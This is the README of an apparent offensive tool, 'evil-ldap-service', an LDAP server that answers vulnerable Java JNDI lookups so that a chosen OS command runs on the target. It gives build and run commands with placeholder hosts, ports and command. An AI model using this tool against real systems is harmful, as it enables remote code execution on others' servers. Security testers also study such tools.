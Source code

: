 # evil-ldap-service
Simplified LDAP service to answer a vulnerable Java JNDI lookup. 

## What's simulate 

![alt text](https://github.com/sciccone/evil-ldap-service/blob/master/doc/evil-ldap-service.png)

## Usage

`mvn clean package`

`java -jar target/evil-ldap-service-jar-with-dependencies.jar -l <LISTEN_HOST> -lp <LDAP_PORT> -hp <HTTP_PORT> -c <OS_COMMAND>`
